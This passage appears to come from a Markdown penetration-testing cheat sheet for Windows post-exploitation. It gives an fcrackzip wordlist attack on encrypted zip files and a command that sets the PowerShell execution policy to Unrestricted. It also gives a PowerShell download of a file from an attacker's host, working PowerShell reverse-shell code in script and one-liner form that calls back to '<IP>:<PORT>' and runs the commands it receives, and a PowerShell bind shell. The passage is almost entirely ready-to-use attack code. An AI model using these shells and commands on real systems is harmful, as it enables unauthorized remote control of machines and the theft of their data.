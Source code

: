 ### Cracking encrypted zip-file
```bash
fcrackzip -u -D -p '/usr/share/wordlists/rockyou.txt' <zip-file-name>
```

## Windows Post Exploitation

### Powershell Fun
```powershell
Set-ExecutionPolicy Unrestricted
Get-ExecutionPolicy
```

#### Powershell File Transfer
```cmd
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://<IP>:<PORT>/<FILE>','<TARGET-FILENAME>')"
```

#### Powershell Shells
##### Powershell Reverseshell
```powershell
$client = New-Object System.Net.Sockets.TCPClient('<IP>', <PORT>);
$stream = $client.GetStream();
[byte[]]$bytes = 0..65535|%{0};
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0)
{
	$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0,$i);
	$sendback = (iex $data 2>&1 | Out-String );
	$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';
	$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
	$stream.Write($sendbyte,0,$sendbyte.Length);
	$stream.Flush();
}

$client.Close();
```
Same as Oneliner:
```cmd
powershell -c "$client = New-Object System.Net.Sockets.TCPClient('<IP>', <PORT>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0,$i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush();}$client.Close();""
```

##### Powershell Bind Shell
```powershell
$listener = New-Object System.Net.Sockets.TcpListener('0.0.0.0',<PORT>);
$listener.start();
$client = $listener.AcceptTcpClient();
$stream = $client.GetStream();
[byte[]]$bytes = 0..65535|%{0};
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0)
{
	$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes, 0, $i);
	$sendback = (iex $data 2>&1 | Out-String );
	$sendback2 = $sendback + 'PS ' + (pwd).Path + '>';
	$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
	$stream.Write($sendbyte,0,$sendbyte.Length);
	$stream.Flush()
}

```